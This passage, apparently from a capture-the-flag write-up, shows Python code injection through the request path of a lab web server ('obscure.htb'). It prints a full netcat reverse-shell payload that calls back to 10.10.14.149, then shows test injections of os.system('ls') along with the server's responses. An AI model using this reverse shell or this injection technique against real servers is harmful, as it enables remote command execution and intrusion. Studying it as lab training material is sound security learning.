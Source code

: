 In the script above, you can read the comments to get a small understanding of what it does. It's what I call a bin script (no, bin does not stand for binary, just bin as what you but your garbage in). Nevertheless if we run it with `ls`, here's the output on my local machine.

```sh
$python3 sandbox.py
{'method': 'GET', 'doc': "/index.html',os.system('rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>&1|nc%2010.10.14.149%201231%20>/tmp/f'),'", 'vers': 'HTTP/1.1', 'header': {'    Host': 'obscure.htb:8080', '    User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0', '    Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8', '    Accept-Language': 'en-US,en;q=0.5', '    Accept-Encoding': 'gzip, deflate', '    DNT': '1'}, 'body': '    Cache-Control: max-age=0'}

COPY THIS::  /index.html',os.system('ls'),'

output = 'Document: /index.html',os.system('ls'),''
ffuf  nmap  sandbox.py  stuff.txt  SuperSecureServer.py  testinject.py  wordlist1.  writeUp
```

Ok so it seams to work. Now we can play around and and test commands. In order to easily test them on the target website, we'll use Burpsuit and the repeater mode and just change the first line of the request.

```http
[REQUEST]
GET /index.html',os.system('ls'),' HTTP/1.1
Host: obscure.htb:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 28 Mar 2020 20:56:36


[RESPONSE]
HTTP/1.1 404 NOT FOUND
Date: Sat, 28 Mar 2020 21:02:56
Server: BadHTTPServer
Last-Modified: Sat, 28 Mar 2020 21:02:56
Content-Length: 196
Content-Type: text/html
Connection: Closed


<div id="main">
    	<div class="fof">
                <h1>Error 404</h1>
                <h2>Document /index.html',os.system('ls'),' could not be found</h2>
    	</div>
</div>
```
